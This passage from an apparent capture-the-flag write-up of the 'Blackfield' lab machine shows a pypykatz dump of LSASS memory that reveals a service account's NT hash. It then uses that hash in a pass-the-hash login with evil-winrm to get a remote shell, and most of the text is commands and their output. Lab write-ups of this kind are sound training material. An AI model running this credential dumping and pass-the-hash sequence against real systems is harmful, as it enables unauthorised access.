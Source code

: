 We can setup pypykatz to dump the hashes and for users in the LSASS database.

```shell
pip3 install minidump minikerberos aiowinreg msldap winacl
git clone https://github.com/skelsec/pypykatz.git
cd pypykatz
sudo python3 setup.py install
```

Using pypykatz, we can perform an `lsa minidump` on our dump of the LSASS database. From here we are granted with extremely sensitive password hashes for the svc_backup user.

```shell
┌──(thadigus㉿kali)-[~/…/Blackfield/forensic_smb/memory_analysis/lsass]
└─$ pypykatz lsa minidump lsass.DMP
INFO:pypykatz:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef621
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
        == Kerberos ==
                Username: svc_backup
                Domain: BLACKFIELD.LOCAL
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
```

Using the hashes that we retrieved from LSASS, we can use Evil-WinRM with the Pass-The-Hash attack in order to authenticate against the target server without even cracking the user password hash!

```shell
┌──(thadigus㉿kali)-[~/…/Blackfield/forensic_smb/memory_analysis/lsass]
└─$ evil-winrm -i 10.10.10.192 -u svc_backup -H '9658d1d1dcd9250115e2205d9f48400d'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami
blackfield\svc_backup
```